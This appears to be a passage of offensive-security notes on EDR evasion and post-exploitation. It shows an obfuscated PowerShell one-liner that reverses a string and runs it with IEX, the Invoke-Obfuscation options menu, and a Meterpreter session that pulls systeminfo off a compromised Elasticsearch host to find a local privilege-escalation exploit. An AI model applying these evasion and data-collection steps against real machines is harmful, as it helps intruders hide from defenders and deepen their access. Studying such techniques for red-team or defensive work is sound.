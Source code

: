 ## Table of Contents

      - [Evasion](#Evasion)
  - [Pivoting](#Pivoting)
  - [Persistence](#Persistence)

#### Evasion
EDR Software will usually know what attack techniques look like. Common/well-known tools are often detected unless evasive action is taken.


- One possible place where evasion needs to happen is detecting files, primarily on disk. You may be able to use techniques like alternate data streams mentioned later. You can also encrypt/obfuscate data.

```powershell
$N7 =[char[ ] ] "noisserpxE-ekovnI| )93]rahC[,'pQm'ecalpeR-  
43]rahC[,'bg0'ecalpeR- )')pQm'+'nepQ'+'m+pQme'+'rGpQm'+'  
( '+'roloCdnu'+'orger'+'oF- )bg0nbg0'+'+ bg0oibg0'+' +  
bg0tacbg0'+'+'+'bg0sufbO-b'+'g'+'0+'+'bg0ek'+'ovn'+'bg0+ bg0Ib'+'g'+'0 '+' (  
)'+'bg'+'0tsO'+'bg0'+' + bg'+'0H'+'-'+'ebg0 '+' '+'+ b'+'g0'+'tIRwb'+'g0(.  
'((";[Array]::Reverse($N7 ) ; IEX ($N7-Join '' )
```
  
This translates to `Invoke‐Obfuscation`, which is a cmdlet written by Daniel Bohannon that takes a PowerShell script and obfuscates it. There are different ways to accomplish the obfuscation, as demonstrated when you run the cmdlet without any parameters. The following are the techniques you can use for obfuscating PowerShell using this cmdlet:  
  

Choose one of the below options:  
 ```powershell
[*] TOKEN Obfuscate PowerShell command Tokens  
[*] AST Obfuscate PowerShell Ast nodes (PS3.0+)  
[*] STRING Obfuscate entire command as a String  
[*] ENCODING Obfuscate entire command via Encoding  
[*] COMPRESS Convert entire command to one-liner and Compress  
[*] LAUNCHER Obfuscate command args w/Launcher techniques (run once at end)
```


To get our limited permissions escalated, we need to identify a local exploit. One way of doing this is to use the Python script `windows‐exploit‐suggester.py`. This is a script that can be downloaded from GitHub. It requires a couple of things to run beyond a Python interpreter. First is the output from `systeminfo`. Second is the database containing the Microsoft security bulletins (MSSB) information. To get the first, we'll pull it from our exploited Windows system. We can drop to a Windows shell from Meterpreter and run `systeminfo`, redirecting the output to a file, and then we can pull that file back to our local system. You can see that process in the following listing.  
  
**Getting System Patch Information**  
  

```powershell
meterpreter> shell  
Process 3 created.  
Channel 3 created.  
Microsoft Windows [Version 6.1.7601]  
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.  
  
C:\Program Files\elasticsearch-1.1.1>systeminfo> patches.txt  
systeminfo> patches.txt  
  
C:\Program Files\elasticsearch-1.1.1>exit  
exit  
meterpreter> download patches.txt  
[*] Downloading: patches.txt -> patches.txt  
[*] Downloaded 2.21 KiB of 2.21 KiB (100.0%): patches.txt -> patches.txt  
[*] download : patches.txt -> patches.txt
```

